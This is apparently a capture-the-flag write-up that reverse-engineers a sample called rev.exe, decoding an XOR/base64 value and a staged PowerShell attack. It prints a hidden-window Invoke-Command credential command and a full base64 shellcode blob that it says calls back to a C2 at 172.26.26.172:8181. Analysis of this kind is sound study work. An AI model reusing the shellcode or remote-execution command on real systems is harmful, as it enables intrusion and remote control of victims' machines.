

# In Quest For Rogue Dragon

When loading **rev.exe** into the IDA debugger and viewing its pseudocode, we observe that the executable reads from a registry key and performs some form of comparison. This behavior suggests that the malware may be validating system-specific data, potentially as a way to ensure it is running in the desired environment.



To investigate further, we can set a breakpoint on the registry query function and inspect which registry key is being accessed. By doing this, we can uncover the specific details that the malware is using to tailor its behavior to the victim’s system.


Upon closer inspection, it becomes evident that the variable `a3` is being used as an XOR key, which is critical for decrypting the encoded data used by the malware.


Continuing the analysis, we notice that the value stored in the ECX register equals **0x12**. This value is used as part of the encryption process. The malware then base64 encodes the result and compares it to the hardcoded value `PWthVSBaISZ7`, which we suspect is a crucial part of its logic. 
Our next step is to decode this base64 string and decrypt the XOR-encrypted data using the key **0x12**.


The decoded value reveals the answer to the first question: `/ysG2H34i`.

This string points us to a PasteBin endpoint, which the malware uses to retrieve additional payloads or commands. By following the link, we can gather further details about the attack and potentially uncover the final objective of the malware.


Upon visiting the endpoint, we find that it hosts a PowerShell script named **icsd.ps1**, which contains malicious code designed to establish persistence or gain further access to the compromised system.

```
https://github.com/HuseynAghazada/for-ctf/blob/main/icsd.ps1
```

The PowerShell script attempts to execute the following command, where a password is passed as a plain string, and credentials are created to execute the attack:

```
powershell.exe -nop -w hidden -c $pass=ConvertTo-SecureString -string 'REDACTED' -asPlainText -force;$creds=new-object -typename System.Management.Automation.PSCredential -argumentlist 'ICSD\bertholdt.hover',$pass;$ResultList=@();$iplist='10.100.11.250';foreach($ip in $iplist){$Resultlist += [System.Net.Dns]::GetHostbyAddress($ip).HostName};Invoke-Command -AsJob -ComputerName $ResultList -ScriptBlock { cmd.exe /c start powershell.exe -nop -w hidden -noni -e --REDACTED-- } -Credential $creds;Sleep 20;
```

The script establishes a reverse shell, and by passing the list of IP addresses, the attacker can control the machine remotely. The command uses a hidden window to avoid detection, making it even more challenging for the victim to realize they’ve been compromised.

Next, we proceed to decode the second part of the attack.


We discover another base64-encoded string, which is also compressed. This data likely contains further payloads or instructions for the malware to execute.


This compressed data contains shellcode, which is then decoded and executed by the malware.

```
[Byte[]]$gNu7Y = [System.Convert]::FromBase64String("/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11JvndzMl8zMgAAQVZJieZIgeygAQAASYnlSbwCAB/1rBoarEFUSYnkTInxQbpMdyYH/9VMiepoAQEAAFlBuimAawD/1VBQTTHJTTHASP/ASInCSP/ASInBQbrqD9/g/9VIicdqEEFYTIniSIn5QbqZpXRh/9VIgcRAAgAASbhjbWQAAAAAAEFQQVBIieJXV1dNMcBqDVlBUOL8ZsdEJFQBAUiNRCQYxgBoSInmVlBBUEFQQVBJ/8BBUEn/yE2JwUyJwUG6ecw/hv/VSDHSSP/Kiw5BugiHHWD/1bvwtaJWQbqmlb2d/9VIg8QoPAZ8CoD74HUFu0cTcm9qAFlBidr/1Q==")
```

Our goal now is to retrieve the command-and-control (C2) server’s IP address and port.


By debugging this shellcode with Ghidra, we can uncover the C2 server’s details. This will allow us to trace where the commands are being sent from and potentially stop the malware’s communication with the attacker.


The IP address and port used by the C2 server are **`172.26.26.172:8181`**, providing us with the final clue needed to understand the scope of the attack and begin mitigation efforts.